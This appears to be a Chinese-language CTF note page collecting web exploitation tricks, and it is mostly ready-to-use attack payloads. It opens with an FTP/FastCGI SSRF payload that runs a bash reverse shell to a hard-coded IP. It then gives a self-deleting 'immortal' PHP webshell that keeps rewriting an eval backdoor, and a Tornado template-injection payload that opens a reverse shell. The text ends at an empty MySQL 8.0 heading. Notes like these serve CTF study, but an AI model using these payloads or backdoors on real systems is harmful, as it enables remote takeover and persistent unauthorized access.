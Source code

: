`/?file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/47.101.57.72/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00`

复现失败,日后本地搭建

记录两个题

## 权限维持

### 不死马

这个其实也不算

小tip`.bk.php`等`.`开头的文件不会被`rm -rf *`删除哦

```php
<?php
    ignore_user_abort(true);
    set_time_limit(0);
    unlink(__FILE__);
    $file = 'shell.php';
    $code = '<?php @eval($_POST[1]);?>';
    while (1) {
        file_put_contents($file, $code);
        usleep(5000);
    }
?>
 

```

接下来没有写入权限`cmd=system('while true;do cat /tmp/f*;done');`死循环

### md5数字字符绕过

```php
<?php
    if(sha1(12) === sha1('12') && md5(1) === md5('1')){
        echo("666");
    }
    else{
        echo("777");
    }
?>
//输出结果是666

```

长知识了

### tornade `__tt_utf8(__tt_tmp)`

tornado模版在渲染时会执行`__tt_utf8(__tt_tmp)` 这样的函数，所以将`__tt_utf8`设置为`eval`，然后将__tt_tmp设置为了从POST方法中接收的字符串导致了RCE

```bash
{% set _tt_utf8 =eval %}{% raw request.body_arguments[request.method][0] %}&POST=__import__('os').popen("bash -c 'bash -i >%26 /dev/tcp/vps-ip/port <%261'")
```

### mysql8.0

#### table